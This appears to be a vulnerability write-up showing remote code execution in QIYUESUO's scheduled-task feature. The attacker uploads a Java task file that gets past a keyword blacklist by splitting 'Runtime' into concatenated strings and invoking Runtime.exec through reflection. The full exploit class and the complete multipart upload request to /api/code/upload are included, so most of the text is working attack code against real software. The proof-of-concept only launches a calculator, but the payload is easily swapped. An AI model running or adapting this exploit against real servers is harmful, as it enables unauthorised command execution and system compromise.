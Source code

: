 
Visithttp://127.0.0.1:9181/timedtask?active=QIYUESUO

Add a scheduled task

![](https://gitee.com/nn0nkey/picture/raw/master/img/20250730162310.png)

Java files can be uploaded.

However, there are restrictions on blacklisted files.

![](https://gitee.com/nn0nkey/picture/raw/master/img/20250730162344.png)

Only string filtering, bypassing is simple

Use the following code

```php
package com.qiyuesuo.utask.java;

public class TEST extends BaseTimerTask {
    static final long serialVersionUID = 1L;

    @Override
    public void execute() {
        try {
            String cls = "java.lang.Ru" + "ntime";
            Class<?> clazz = Class.forName(cls);
            String a = "getRu" + "ntime";
            Object rt = clazz.getMethod(a).invoke(null);
            clazz.getMethod("exec", String.class).invoke(rt, "calc");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}

```

```php
POST /api/code/upload HTTP/1.1
Host: 127.0.0.1:9181
Sec-Fetch-Dest: empty
sec-ch-ua-platform: "Windows"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept-Language: zh-CN,zh;q=0.9
Referer: http://127.0.0.1:9181/timedtaskedit
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryddTsKu3LDJO6V0BM
sec-ch-ua: "Not)A;Brand";v="8", "Chromium";v="138", "Google Chrome";v="138"
Cookie: SID=e45cbd39-3471-46ad-b490-67ea1629260a; OSSID=6d8b88de-1d8f-4cd9-83d3-c24d86f491e1
X-Requested-With: XMLHttpRequest
Origin: http://127.0.0.1:9181
sec-ch-ua-mobile: ?0
Accept-Encoding: gzip, deflate, br, zstd
Content-Length: 826

------WebKitFormBoundaryddTsKu3LDJO6V0BM
Content-Disposition: form-data; name="type"

TIMETASK
------WebKitFormBoundaryddTsKu3LDJO6V0BM
Content-Disposition: form-data; name="file"; filename="TEST.java"
Content-Type: application/octet-stream

package com.qiyuesuo.utask.java;

public class TEST extends BaseTimerTask {
    static final long serialVersionUID = 1L;

    @Override
    public void execute() {
        try {
            String cls = "java.lang.Ru" + "ntime";
            Class<?> clazz = Class.forName(cls);
            String a = "getRu" + "ntime";
            Object rt = clazz.getMethod(a).invoke(null);
            clazz.getMethod("exec", String.class).invoke(rt, "calc");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}

------WebKitFormBoundaryddTsKu3LDJO6V0BM--


```

![](https://gitee.com/nn0nkey/picture/raw/master/img/20250730162541.png)

Then select a cycle time of 10 seconds.

![](https://gitee.com/nn0nkey/picture/raw/master/img/20250730162651.png)

Successfully popping up the calculator causes RCE
